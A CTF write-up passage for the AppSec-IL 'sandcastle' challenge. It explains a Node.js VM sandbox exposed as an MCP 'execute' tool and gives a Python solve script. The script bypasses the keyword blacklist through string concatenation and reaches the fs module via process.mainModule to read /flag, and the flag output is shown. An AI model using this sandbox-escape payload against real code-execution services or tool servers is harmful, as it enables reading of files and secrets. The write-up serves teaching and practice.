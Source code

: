 In short, the application allows us to execute code, but only if we pass the validation.
This validation is composed of running in a VM which includes:
 * A blacklist of case-insensitive keywords that are considered dangerous
 * Limitations on execution time, memory and length
 * The removal of access to dangerous globals by setting them to `undefined`
 * Freezing prototype chains of common constructors to prevent prototype pollution or global state mutation

The following script will send a payload that bypasses the sanitization checks (by behaving differently
inside/outside the VM and using string concatenation to bypass the blacklist):

```python
import requests
import json

url = "https://sandcastle.appsecil.ctf.today/mcp"
headers = {
    "Content-Type": "application/json",
    "Accept": "application/json, text/event-stream"
}

code = """this["p" + "rocess"] === undefined ? 1 : this["p" + "rocess"]["m"+"ainModule"]["r"+"equire"]("f"+"s").readFileSync("/flag")"""

payload = {
    "jsonrpc": "2.0",
    "method": "tools/call",
    "params": {
        "name": "execute",
        "arguments": {
            "code": code
        }
    },
  "id": 1
}
resp = requests.post(url, headers=headers, json=payload)
print(resp.text)

j = json.loads(resp.text.replace("event: message\ndata: ", ""))
j = json.loads(j["result"]["content"][0]["text"])
print("Flag: ", "".join(chr(x) for x in j["data"]))
```

Output:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/sandcastle]
└─$ python3 solve.py
event: message
data: {"result":{"content":[{"type":"text","text":"{\"type\":\"Buffer\",\"data\":[65,112,112,83,101,99,45,73,76,123,68,51,98,117,57,57,49,110,57,95,49,53,95,55,104,51,95,119,64,121,125]}"}]},"jsonrpc":"2.0","id":1}


Flag:  AppSec-IL{D3bu991n9_15_7h3_w@y}
```


